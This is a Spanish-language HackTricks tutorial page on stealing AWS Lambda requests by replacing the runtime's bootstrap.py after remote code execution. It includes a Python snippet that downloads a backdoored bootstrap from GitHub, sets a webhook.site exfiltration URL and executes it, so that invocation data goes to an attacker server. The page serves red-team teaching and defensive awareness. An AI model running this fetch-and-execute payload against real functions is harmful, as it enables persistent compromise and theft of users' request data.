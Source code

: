 # AWS - Robar Solicitudes de Lambda

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Flujo de Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** es un proceso fuera del contenedor que **envía** **invocaciones** al proceso **init**.
2. El proceso init escucha en el puerto **9001** exponiendo algunos endpoints interesantes:
* **`/2018-06-01/runtime/invocation/next`** – obtener el próximo evento de invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – devolver la respuesta del manejador para la invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – devolver un error de ejecución
3. **bootstrap.py** tiene un bucle que obtiene invocaciones del proceso init y llama al código de los usuarios para manejarlas (**`/next`**).
4. Finalmente, **bootstrap.py** envía al init la **respuesta**

Ten en cuenta que bootstrap carga el código de usuario como un módulo, por lo que cualquier ejecución de código realizada por el código de los usuarios en realidad está ocurriendo en este proceso.

## Robar Solicitudes de Lambda

El objetivo de este ataque es hacer que el código de los usuarios ejecute un proceso malicioso **`bootstrap.py`** dentro del proceso **`bootstrap.py`** que maneje la solicitud vulnerable. De esta manera, el proceso **bootstrap malicioso** comenzará a **comunicarse con el proceso init** para manejar las solicitudes mientras el **bootstrap legítimo** está **atrapado** ejecutando el malicioso, por lo que no solicitará más solicitudes al proceso init.&#x20;

Esta es una tarea sencilla de lograr, ya que el código del usuario se está ejecutando por el proceso legítimo **`bootstrap.py`**. Por lo tanto, el atacante podría:

* **Enviar un resultado falso de la invocación actual al proceso init**, para que init piense que el proceso bootstrap está esperando más invocaciones.
* Se debe enviar una solicitud a **`/${invoke-id}/response`**&#x20;
* El invoke-id se puede obtener de la pila del proceso legítimo **`bootstrap.py`** utilizando el módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como se [propone aquí](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o simplemente solicitándolo nuevamente a **`/2018-06-01/runtime/invocation/next`** (como se [propone aquí](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Ejecutar un **`bootstrap.py`** malicioso que manejará las próximas invocaciones
* Con fines de sigilo, es posible enviar los parámetros de las invocaciones de lambda a un C2 controlado por los atacantes y luego manejar las solicitudes como de costumbre.
* Para este ataque, es suficiente obtener el código original de **`bootstrap.py`** del sistema o de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), agregar el código malicioso y ejecutarlo desde la invocación actual de lambda.

### Pasos del Ataque

1. Encuentra una vulnerabilidad de **RCE**.
2. Genera un **bootstrap** **malicioso** (por ejemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Ejecuta** el bootstrap malicioso.

Puedes realizar fácilmente estas acciones ejecutando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para obtener más información, visita [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencias

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

